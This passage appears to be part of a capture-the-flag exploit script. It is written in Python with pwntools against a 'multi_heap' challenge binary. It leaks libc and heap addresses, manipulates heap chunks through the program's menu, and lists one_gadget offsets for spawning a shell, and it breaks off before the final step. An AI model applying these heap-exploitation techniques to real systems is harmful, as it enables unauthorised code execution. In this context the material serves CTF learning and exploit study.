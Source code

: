 ```python
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Content: ')
    p.send(buf)

def Copy(src_idx, dst_idx, size, ch):
    p.recvuntil('Your choice: ')
    p.sendline('5')
    p.recvuntil('Src index: ')
    p.sendline(str(src_idx))
    p.recvuntil('Dst index: ')
    p.sendline(str(dst_idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('(y/n): ')
    p.sendline(ch)

def Copy_s(src_idx, dst_idx, size, ch):
    return '5\n' + str(src_idx) + '\n' + str(dst_idx) + '\n' + str(size) + '\n' + ch + '\n'

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        p = process('./multi_heap', env = {'LD_PRELOAD' : './libc.so.6'})
    else:
        p = remote(ip, port)
    for i in range(3):
        Alloc('long', 0x500, 'm')

    for i in range(2):
        Free(0)
    Alloc('long', 0x500, 'm')
    Alloc('long', 0x500, 'm')
    Write(1)
    libc_addr = int(p.recvline()) - 0x3ebca0
    heap_addr = int(p.recvline()) - 0x123f0
    log.info('libc addr is : ' + hex(libc_addr))
    log.info('heap addr is : ' + hex(heap_addr))
    Alloc('char', 0x100, 'm')
    Alloc('char', 0x100, 'm')
    Read(4, 8, p64(heap_addr + 0x12fe0))
    # p.recv(1024)
    # p.sendline('10')
    # Copy(4, 3, 8, 'y')
    # Write(3)
    # Write(4)
    # Free(3)
    buf = Copy_s(4, 3, 8, 'y') + Free_s(3)
    p.send(buf)
    Alloc('char', 0x100, 'm')
    Alloc('char', 0x100, 'm')
    Write(5)
    data = p.recvline()
    if '==' in data:
        print 'error !'
        return

    one_gadget = 0x4f2c5
    one_gadget = 0x4f322
    # one_gadget = 0xe569f
    # one_gadget = 0xe5858
    # one_gadget = 0xe585f
    # one_gadget = 0xe5863
```